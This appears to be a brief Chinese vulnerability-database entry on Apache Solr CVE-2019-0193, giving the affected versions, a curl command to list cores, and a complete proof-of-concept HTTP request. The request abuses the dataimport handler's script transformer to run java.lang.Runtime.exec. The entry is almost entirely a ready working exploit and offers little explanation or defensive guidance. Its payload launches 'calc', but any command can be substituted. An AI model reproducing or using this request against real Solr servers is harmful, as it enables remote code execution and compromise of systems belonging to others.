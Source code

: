```yaml
---
title: 'Apache Solr远程命令执行 CVE-2019-0193'
date: Sat, 29 Aug 2020 11:09:52 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


影响版本 apache solr 5.x-8.2.0,存在config API版本 获取所有 core 信息：curl [http://IP/solr/admin/cores](http://IP/solr/admin/cores) HTTP协议头：POST /solr//dataimport

POC

```
POST /solr/<your_core_name>/dataimport HTTP/1.1
Host: 127.0.0.1:8983
Content-Length: 763
User-Agent: Mozilla/5.0
Content-type: application/x-www-form-urlencoded
Connection: close

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=<your_core_name>&name=dataimport&dataConfig=
<dataConfig>
<dataSource type="URLDataSource"></dataSource>
<script><![CDATA[
function poc(row){
var process= java.lang.Runtime.getRuntime();
process.exec("calc");
return row;
}
]]></script>
<document>
<entity name="stackoverflow"
url="https://stackoverflow.com/feeds/tag/solr"
processor="XPathEntityProcessor"
forEach="/feed"
transformer="script:poc" ></entity>
</document>
</dataConfig>
```

![](Apache%20Solr%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%20CVE-2019-0193/123.png)